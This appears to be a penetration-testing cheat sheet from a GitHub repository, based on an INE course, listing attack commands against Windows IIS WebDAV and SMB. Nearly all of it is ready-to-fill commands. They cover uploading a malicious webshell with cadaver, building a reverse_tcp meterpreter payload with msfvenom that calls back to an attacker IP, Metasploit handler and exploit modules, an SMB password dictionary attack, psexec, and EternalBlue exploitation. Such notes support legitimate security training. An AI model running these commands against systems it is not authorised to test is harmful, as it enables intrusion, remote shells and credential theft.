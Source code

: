 # Windows Vulnerabilities

* [Microsoft ISS WebDAV](#microsoft-iss-webdav)
* [SMB](#smb)
* [RDP](#rdp)
* [References](#references)

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Microsoft ISS WebDAV
```
davtest -url [URL]
```
```
davtest -auth [USERNAME]:[PASSWORD] -url [URL]
```
```
cadaver [URL]
```
Once inside cadaver prompt:
```
put [MALICIOUS-WEBSHELL]
```
Now Check ISS WebDAV via internet browser to perform objectives...

### Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -f asp > [FILENAME]
```
Now put payload on target machine by any means (cadaver works well, see command above)  

Next set up and start a listenr:  
```
service postgresql start && msfconsole
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
Set other required options and exploit

#### Automate the above process

```
use exploit/windows/iss/iss_webdav_upload_asp
```
Now set required options and exploit.  
****************************************

## SMB

### Metasploit
```
service postgresql start && msfconsole
```
#### Dictionary Attack
```
search smb_login
```
```
use auxiliary/scanner/smb/smb_login
```
Show options, set them, and exploit the target

#### PSExec Module
```
search psexec
```
```
exploit/windows/smb/psexec
```
Show options, set them, and exploit the target


### PSExec
```
psexec.py [USERNAME]@[TARGET-IP] cmd.exe
```

### Eternal Blue
Check for vulnerability:
```
nmap -sV -p 445 --script=smb-vuln-ms17-010 [TARGET-IP]
```
#### Auto Blue GitHub (Manual Exploit)
https://github.com/3ndG4me/AutoBlue-MS17-010

#### Metasploit
```
search eternalblue
```
Check for vulnerability:
```
use auxiliary/scanner/smb/smb_ms17_010
```
Exploitation:
```
use exploit/windows/smb/ms17_010_eternalblue
```
Show options, set them, and exploit

**************************************

## RDP

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2

